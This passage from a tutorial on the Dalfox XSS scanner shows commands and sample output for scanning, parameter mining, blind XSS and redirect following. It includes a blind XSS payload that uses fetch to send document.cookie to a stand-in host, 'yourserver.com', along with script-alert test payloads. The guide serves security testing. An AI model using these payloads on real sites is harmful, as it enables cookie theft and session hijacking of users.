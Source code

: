 #### Command:
```bash
dalfox url "http://example.com?search=test" -s
```

#### Output:
```plaintext
[RESULT] Found XSS Payload: http://example.com?search=<script>alert(1)</script>
```

---

### **7. Param Mining**
Discover injectable parameters on a target website.

#### Command:
```bash
dalfox url "http://example.com" --mining-dict
```

#### Output:
```plaintext
[INFO] Found Parameter: search
[INFO] Found Parameter: id
```

---

### **8. Blind XSS**
Test for blind XSS using a payload that sends data to your server.

#### Command:
```bash
dalfox url "http://example.com?search=test" --blind "http://yourserver.com/callback"
```

#### Example Payload Sent:
```plaintext
<svg/onload="fetch('http://yourserver.com/callback?cookie='+document.cookie)">
```

---

### **9. Follow Redirects**
Follow HTTP redirects during a scan.

#### Command:
```bash
dalfox url "http://example.com?param=test" --follow-redirects
```

#### Output:
```plaintext
[INFO] Redirect Detected: http://example.com/redirected
[RESULT] Found XSS Payload: http://example.com/redirected?param=<script>alert(1)</script>
```

---